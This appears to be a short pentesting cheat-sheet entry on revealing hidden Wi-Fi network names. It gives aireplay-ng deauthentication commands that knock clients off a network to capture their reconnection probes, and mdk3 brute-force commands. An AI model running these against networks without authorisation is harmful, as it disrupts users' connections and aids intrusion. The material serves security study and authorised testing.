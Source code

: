 # How to find hidden SSIDs
Hiding SSIDs is a superficial attempt at masking SSIDs from casual users and attackers by making it less visible. 2 methods to get their ESSID, deauth and bruteforcing.
## Deauth
If there are clients connected to hidden networks you can deauth them, then capture the request they send to re-connect which will contain the ESSID / network name. 
Once setup:
```
airodump-ng wlan1mon
```
```
aireplay-ng -0 10 -a B2:C1:3D:3B:2B:A1 -c 02:00:00:00:02:00 wlan1mon
```
## Brute forcing hidden SSID
With `mdk3`, we can either provide a wordlist or specify the length of the SSID so the tool can automatically generate potential SSID names:
```
mdk3 <interface> <test mode> [test_ options]
```
Brute forcing all possible values:
```
mdk3 wlan1mon p -b u -c 1 -t A2:FF:31:2C:B1:C4
```
Brute forcing using a wordlist:
```
mdk3 wlan1mon p -f /opt/wordlist.txt -t D2:A3:32:13:29:D5
```
